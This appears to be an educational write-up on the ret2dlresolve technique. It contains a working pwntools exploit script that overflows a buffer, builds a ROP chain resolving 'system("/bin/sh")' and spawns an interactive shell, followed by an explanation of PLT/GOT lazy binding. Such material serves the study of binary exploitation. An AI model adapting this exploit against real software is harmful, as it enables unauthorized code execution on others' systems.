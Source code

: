 # Pwntools
```python
offset = 28

rop = ROP(context.binary)

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"])

rop.read(0, dlresolve.data_addr, 0x100)
rop.ret2dlresolve(dlresolve)

raw_rop = rop.chain()

payload = (b'A'*offset) + raw_rop
payload += b'A'*(0x64-len(payload))

payload2 = dlresolve.payload
payload2 += b'A'*(0x100-len(dlresolve.payload))

print(rop.dump())
print(payload + payload2)

io = start()

io.send(payload)
io.send(payload2)

io.interactive()
```

# Resolving a function

## General execution flow

We can see a call to an imported function through the ```@plt``` added to the symbol name in gdb, ```call   0x80482e0 <read@plt>```, wich means that the address called is the associated stub code from the PLT segment. We can also see those functions in any disassembler by looking at the .plt section.

When one of those functions is called, two things can happen. If the function has already been called at least once, then it is already resolved. The call will lead to the first part of the stub, and jump to its resovled address the GOT. Note that if it the case, we can even directly jump to the GOT entry (```<read@got>```).

If the functions is called for the first time, then the second stub is called. This stub pushes the associated Rel table index into the stacks and execution jumps to the PLT0 stub.
The PLT0 stub pushes pushes GOT[1] (link_map structure instance) on the stack and jumps to GOT[2] (```_dl_runtime_resolve``` pointer) , combined with the previous push, this exssentialy calls ```_dl_runtime_resolve(link_map_obj, reloc_index)```.
